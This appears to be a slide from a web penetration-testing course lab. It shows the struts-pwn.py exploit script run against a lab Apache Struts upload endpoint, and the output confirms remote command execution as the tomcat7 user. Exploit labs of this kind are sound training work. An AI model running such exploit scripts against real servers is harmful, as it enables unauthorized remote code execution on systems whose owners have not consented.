

# ./strut-spwn.py with the correct URL
	./struts-pwn.py  -u  http://struts.sec642.org:8080/showcase/fileupload/upload.action
Success! It ran the 'id' command and we see the response
$ ./struts-pwn.py -u http://struts.sec642.org:8080/showcase/fileupload/upload.action

[*] URL: http://struts.sec642.org:8080/showcase/fileupload/upload.action
[*] CMD: id
uid=103(tomcat7) gid=108(tomcat7) groups=108(tomcat7)

[%] Done.
$